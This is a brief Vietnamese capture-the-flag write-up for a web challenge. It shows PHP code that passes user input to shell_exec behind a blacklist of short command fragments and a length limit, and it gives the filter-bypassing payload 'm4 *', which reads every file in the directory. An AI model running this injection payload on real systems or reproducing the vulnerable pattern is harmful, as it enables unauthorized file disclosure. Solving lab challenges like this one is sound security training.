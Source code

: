 # Command Limit Length
Link: https://battle.cookiearena.org/challenges/web/command-limit-length

![alt text](image.png)

Bài này liên quan đến cmli, nhưng bị filter một vài lệnh và giới hạn chỉ 5 kí tự

Source php:
```php
$title = "Baby RCE Bonepest";
$description = "Baby RCE Bonepest";
$message = "You only use id` and `ps` command";

$start = $_GET['start'];

$blacklist = array (
    'ss, 'sc', 'aa', 'od', 'pr',
    'pw', 'pf', 'ps', 'pa', 'pd',
    'pp', 'po', 'pc', 'pz', 'pq',
    'pu', 'pv', 'pw', 'px', 'ls',    
    'dd', 'nl', 'nk', 'df', 'wc',
    'du', 'll', 'rm', 'vi', 'ln',
    'cp', 'sh', 'su', 'ex', 'ab'
);


$valid = true;
foreach($blacklist as $blackItem) {
    if(strpos($start, $blackItem) !== false) {
        $valid = false;
        break;
    }
}

if(!$valid) {
    $message = 'Please enter a valid command!';
} else {
    if (strlen($start) < 5) {
        $message = shell_exec($start);
        if(empty($message)) {
            $message = "Command not found";
        }
    } else {
        $message = "The command is not greater than 5 characters!";
    }
}
?>
```

Mình đã gặp dạng này khá nhiều và kinh nghiệm lần trước đó mách bảo mình sử dụng lệnh m4 cũng có tác dụng tương tự để đọc file

payload: `m4 *`

![alt text](image-1.png)